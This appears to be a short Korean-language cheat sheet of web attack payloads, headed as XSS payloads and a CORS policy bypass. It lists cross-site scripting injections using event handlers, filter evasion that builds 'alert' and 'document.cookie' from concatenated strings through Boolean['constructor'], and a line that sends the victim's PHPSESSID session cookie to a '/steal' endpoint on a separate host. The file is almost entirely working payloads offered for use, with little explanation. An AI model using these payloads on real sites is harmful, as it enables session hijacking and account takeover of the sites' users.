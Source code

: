 # XSS 페이로드
"><svg/onwheel=alert'1'> 


aa"><onpointover="alert(1)"><input%20types="hidden"%20value=" 


<div class="~~~ -hidden"> 태그에서 hidden 삭제 후 활성화된 창에서 입력
Boolean['constructor']('alert(1);')();

Boolean['constructor']('a' + 'l' + 'e' + 'r' + 't' + '(1)')();

<a onwheel="Boolean['constructor']('a'+'l'+'e'+'r'+'t'+'('+'d'+'o'+'c'+'u'+'m'+'e'+'n'+'t'+'.'+'c'+'o'+'o'+'k'+'i'+'e'+')')();">asdf</a>

# CORS 정책 우회
;const img=new Image();img.src='http://192.168.0.2:5000/steal?PHPSESSID='+document.cookie.match(/PHPSESSID=([^;]+)/)[1];//'

";Boolean[%27constructor%27](%27al%27%2b%27er%27%2b%27t(1)%27)();"


;window.open("https://naver.com");
